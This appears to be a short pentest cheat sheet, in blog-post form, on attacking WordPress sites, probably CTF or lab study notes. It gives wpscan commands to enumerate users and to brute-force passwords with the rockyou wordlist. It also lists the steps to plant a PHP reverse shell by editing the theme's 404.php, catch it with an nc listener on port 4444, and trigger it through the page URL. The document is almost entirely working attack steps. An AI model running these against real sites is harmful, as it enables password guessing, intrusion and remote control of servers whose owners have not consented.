 ```yaml
---
layout: post
title:  "webapp attacks - wordpress"
date:   2022-01-01
categories: web
---
```


## Enumeration

```bash

wpscan --rua -e --url http://<ip>:<port>/<uri>/

```

## Brute force

```bash

wpscan --rua --url http://<ip>:<port>/<uri>/ -P /usr/share/wordlists/rockyou.txt -U user

```

## Reverse Shell

```

Login -> Appearance -> Theme Editor -> Twenty Seventeen: 404 Template (404.php)

Change the content of the 404.php with this : /usr/share/webshells/php/php-reverse-shell.php

Listener: nc -nlvp 4444

Trigger the Reverse Shell : http://<ip>:<port>/<uri>/wp-content/themes/twentyseventeen/404.php

```

